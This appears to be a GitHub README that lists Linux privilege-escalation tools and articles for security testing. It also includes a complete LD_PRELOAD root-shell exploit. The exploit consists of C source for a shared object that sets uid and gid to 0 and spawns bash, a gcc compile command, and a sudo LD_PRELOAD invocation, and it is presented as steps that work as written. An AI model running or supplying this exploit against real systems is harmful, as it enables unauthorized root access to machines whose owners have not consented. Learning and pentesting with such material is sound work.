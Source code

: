 # Privilege-Escalation
Bypass security restrictions in misconfigured systems.
List of Tools and Repositories 👇🏻

## For Linux

**LinPeas** - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

**LinEnum** - https://github.com/rebootuser/LinEnum

**LES (Linux Exploit Suggester)** - https://github.com/mzet-/linux-exploit-suggester

**Linux Smart Enumeration** - https://github.com/diego-treitos/linux-smart-enumeration

**Linux Priv Checker** - https://github.com/linted/linuxprivchecker 

**GTFOBins** - https://gtfobins.github.io/

**Using *LD_Preload***
> This piece of code will spawn root shell ➡️ [shell.c](https://github.com/Somchandra17/Privilege-Escalation/blob/01f889492ff51414fa077a01fa538ecd5a0d4543/shell.c)
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
> Compile it using GCC into a Shared Object file(.so)
```
gcc -fPIC -shared -o shell.so shell.c -nostartfile
```
> Run it by using LD_Preload option  
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
**Linux Privilege Escalation exploiting Sudo Rights — Part I** - https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d

**Abusing 'find', 'vim' and 'awk' for root access** - https://www.andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/
